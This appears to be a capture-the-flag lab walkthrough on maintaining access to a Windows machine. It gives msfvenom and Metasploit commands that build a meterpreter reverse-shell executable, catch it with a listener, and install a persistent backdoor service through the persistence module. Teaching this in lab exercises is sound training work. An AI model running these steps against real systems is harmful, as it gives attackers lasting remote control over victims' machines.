



Maintaining Access
There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.
There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.
This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.
Generating a Payload w/ msfvenom
1.)
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe this will generate a basic windows meterpreter reverse tcp shell
2.) Transfer the payload from your attacker machine to the target machine.
3.)
use exploit/multi/handler - this will create a listener on the port that you set it on.
4.) Configure our payload to be a windows meterpreter shell:
set payload windows/meterpreter/reverse_tcp5.) After setting your THM IP address as your "LHOST", start the listener with
run6.) Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7.) Verify that we've got a meterpreter shell, where we will then
background it to run the persistence module.
Run the Persistence Module -
1.)
use exploit/windows/local/persistence this module will send a payload every 10 seconds in default however you can set this time to anything you want
2.)
set session 1 set the session to the session that we backgrounded in meterpreter (you can use the
sessions command in metasploit to list the active sessions)
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to
windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.
Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.
There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.
{kind=link}
{kind=link}
{kind=link}